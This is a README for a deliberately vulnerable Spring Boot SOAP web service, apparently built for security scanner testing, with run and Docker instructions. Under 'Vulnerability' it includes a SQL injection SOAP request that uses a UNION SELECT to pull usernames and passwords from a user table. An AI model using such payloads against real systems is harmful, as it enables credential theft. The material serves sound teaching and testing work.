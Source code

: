 # Spring boot SOAP example 

Simple SOAP API using Spring Boot. Based on this [tutorial](https://howtodoinjava.com/spring/spring-boot/spring-boot-soap-webservice-example/).

Requires:
* Gradle (wrapper in source)

Optional:
* Docker

## Run

```
cd app/
./gradlew bootRun
```

View the WDSL at http://localhost:9000/ws/vulnsoap.wsdl and post requests to http://localhost:9000/ws.

Example of a valid request (with header "Content-Type:text/xml"):
```
<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <sch:GetCourseDetailsRequest xmlns:sch='http://www.stackhawk.com/vulnsoap'>
        <sch:name>history</sch:name>
    </sch:GetCourseDetailsRequest>
  </s11:Body>
</s11:Envelope>
```

## Vulnerability

Example of a SQL injection request:

```
<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <sch:GetCourseDetailsRequest xmlns:sch='http://www.stackhawk.com/vulnsoap'>
        <sch:name>history' union select id, username as name, password as description from user --</sch:name>
    </sch:GetCourseDetailsRequest>
  </s11:Body>
</s11:Envelope>
```

### Docker

```

# build image
docker build -t local/vulny-soap .

# run image
docker run --rm --name vuln-soap -ti -p 9000:9000 local/vulny-soap
```

